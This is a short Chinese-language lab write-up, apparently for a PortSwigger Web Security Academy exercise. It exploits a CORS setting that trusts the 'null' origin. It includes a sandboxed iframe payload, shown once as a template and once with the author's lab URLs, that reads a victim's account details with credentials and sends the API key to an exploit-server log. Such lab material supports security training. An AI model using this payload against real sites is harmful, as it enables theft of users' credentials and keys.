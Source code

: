 ### 解答

登陆账号，单击"我的帐户"，查看历史记录并观察到密钥是通过AJAX请求/accountDetails检索的，并且响应包含Access-Control-Allow-Credentials标头，表明它可能支持CORS

将请求发送到Burp Repeater，并使用添加的标题重新提交

```
Origin: null
```

<img src=".\图片\Snipaste_2023-07-31_14-00-05.png" alt="Snipaste_2023-07-31_14-00-05" style="zoom:80%;" />

漏洞利用

在浏览器中，转到漏洞利用服务器并输入以下HTML（将YOUR-LAB-ID替换为实验室URL的URL，将YOUR-EXPLOIT-SERVER-ID替换为漏洞利用服务器ID）

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
 
我的是：
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aca00d603f8539e803b0da20078008c.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ad1000703375348809f0c82010900f5.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

